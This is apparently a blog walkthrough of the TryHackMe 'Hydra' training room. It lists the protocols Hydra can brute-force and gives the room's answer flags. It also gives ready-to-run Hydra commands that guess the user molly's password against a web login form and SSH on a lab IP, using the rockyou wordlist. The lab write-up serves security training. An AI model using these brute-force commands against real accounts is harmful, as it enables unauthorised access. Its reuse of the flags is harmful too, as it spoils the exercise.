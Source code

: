 ```yaml
---
layout: post
title: Hydra
published: true
---
```


Learn about and use Hydra, a fast network logon cracker, to bruteforce and obtain a website's credentials. 

[https://tryhackme.com/room/hydra](https://tryhackme.com/room/hydra)

![](/assets/hydra.jpeg)

* * *

## Task 1 - Hydra Introduction 

Hydra has the ability to bruteforce the following protocols: Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP,  HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP.

For more information on the options of each protocol in Hydra, read the official Kali Hydra tool page: https://en.kali.tools/?p=220

* * * 

## Task 2 - Using Hydra 

##   Answer the questions below

**Use Hydra to bruteforce molly's web password. What is flag 1?**

- ``hydra -t 16 -l molly -P /usr/share/seclists/Passwords/rockyou.txt 10.10.84.248 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"``

- THM{2673a7dd116de68e85c48ec0b1f2612e}

**Use Hydra to bruteforce molly's SSH password. What is flag 2?**

- ``hydra -t 16 -l molly -P /usr/share/seclists/Passwords/rockyou.txt 10.10.84.248 ssh``

- THM{c8eeb0468febbadea859baeb33b2541b}

* * * 